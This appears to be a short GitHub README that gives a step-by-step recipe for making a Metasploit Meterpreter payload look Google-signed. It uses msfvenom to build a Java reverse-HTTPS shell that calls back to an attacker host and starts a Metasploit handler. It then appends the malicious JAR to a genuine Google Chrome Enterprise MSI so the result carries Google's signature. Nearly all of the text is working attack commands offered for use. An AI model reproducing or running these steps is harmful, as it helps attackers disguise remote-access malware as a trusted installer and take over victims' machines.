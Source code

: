 # Making-Meterpreter-Look-Google-Signed  
https://medium.com/forensicitguy/making-meterpreter-look-google-signed-using-msi-jar-files-c0a7970ff8b7  
  
1) Create malicious java  
msfvenom -p java/meterpreter/reverse_https LHOST=<metasploit host> -f jar -o meterpreter-https.jar  
  
2) Using metasploit for create handler  
msf> handler -p java/meterpreter/reverse_https -H 0.0.0.0 -P 8443
  
3) Create copy from Google Chrome Enterprise MSI  
copy /b GoogleChromeStandaloneEnterprise64.msi + meterpreter-https.jar GoogleChromeStandaloneEnterprise64.jar  
  
After all, We will got the new file in Google Installer file.  
